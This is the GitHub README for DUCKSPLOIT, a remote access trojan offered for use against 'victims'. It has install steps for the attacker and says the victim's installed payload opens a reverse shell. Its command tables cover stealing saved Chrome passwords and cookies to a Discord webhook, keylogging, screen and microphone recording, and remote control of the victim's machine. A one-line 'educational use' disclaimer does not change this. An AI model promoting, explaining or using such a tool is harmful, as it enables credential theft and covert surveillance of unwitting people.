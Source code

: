 # ⚠️DUCKSPLOIT IS UNDER MAINTENANCE⚠️


<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/dsbanner.png" alt="banner"/>

![](https://img.shields.io/badge/Version-1.0.7-red?style=for-the-badge) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/badge/Windows-blue?style=for-the-badge)![](https://img.shields.io/badge/Linux-yellow?style=for-the-badge)![](https://img.shields.io/badge/Android-green?style=for-the-badge)

> Awsome crossbreed of c#, batch, bash powershell, java and python on Windows, Android n linux ♥
 <center>
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/windows-10.png?raw=true" alt="win10" widith="100" height="100"/>
</center>

## Install Ducksploit

#### Hacker
###### setup Windows/Linux
1. Download the hacker's version for your version (win/linux/android) on <a href="https://canarddu38.github.io/DUCKSPLOIT/download.html">our website</a>
2. Install the executable (DSinstaller.exe/.deb/.apk)
3. Type ds in your terminal
4. And done! 
###### :warning: Only for Android
5. Set your port
6. Click on START SERVER button
7. And wait till someone install your payload

 **⚠️DS ANDROID'S PAYLOAD GENERATION IS NOT ACTUALLY WORKING
 TO GET YOUR PAYLOAD PLEASE GO IN OUR DISCORD SERVER⚠️**



#### Victim
Just install the generated payload and that will start automaticaly the client of the reverse shell
:warning: Ducksploit is made for legal use or educational use (then, we are not responsible for any crimes committed by our users):warning:

## Uninstall Ducksploit (windows/linux)
1. type 'ds uninstall' in cmd
2. Done  :smile:

## Uninstall DuckSploit for Android
 1. Delete the app from your phone
 
## SUPPORT
support us with     
<noscript><a href="https://www.paypal.com/paypalme/Canarddu38"><img alt="Donate 👍 using Paypal" src="https://www.paypalobjects.com/webstatic/mktg/Logo/pp-logo-200px.png"></a></noscript>              # or             <noscript><a href="https://www.patreon.com/ducksploit"><img alt="Donate 👍 using Patreon" src="https://forum.cwowd.com/uploads/default/original/3X/6/d/6d1cdda143cc46667d87659d64d15a869a9b6139.png" width="100" height="100"></a></noscript>

## **Commands**
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/mindmap.png?raw=true">




#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |


#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| info | info | view all your account's infos |

#### Exploits
| Command       | Usage                              | Result                                                                               |
| ------------- | ---------------------------------- | ------------------------------------------------------------------------------------ |
| stealpwds     | stealpwds (discord webhook url)    | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook   |
| open          | open (applicationname.exe)         | open mensioned application                                                           |
| recordscreen  | recordscreen (time in second)      | record victim's screen durring amount of time                                        |
| recordmicro   | recordmicro (time in second)       | record victim's micro durring amount of time                                         |

## ⚠️ To get your victim's keylogs, go on 'http://{ip of your victim}:8080/keylogger/' ⚠️

#### Mouse
| Command     | Usage                            | Result                                      |
| ----------- | -------------------------------- | ------------------------------------------- |
| mouseclick  | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove   | mousemove (x) (y)                | move the victim's cursor by x and y pixels  |
| locatemouse | locatemouse                      | get the victim's cursor current locations   |

#### Alert Window
| Command  | Usage                       | Result                                                                    |
| -------- | --------------------------- | ------------------------------------------------------------------------- |
| msg      | msg (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines |

#### Troll
| Command | Usage | Result                              |
| ------- | ----- | ----------------------------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc 
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |


Made with love by DuckpvpTeam's devs
<a href="https://github.com/canarddu38/DUCKSPLOIT/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=canarddu38/DUCKSPLOIT" />
</a>
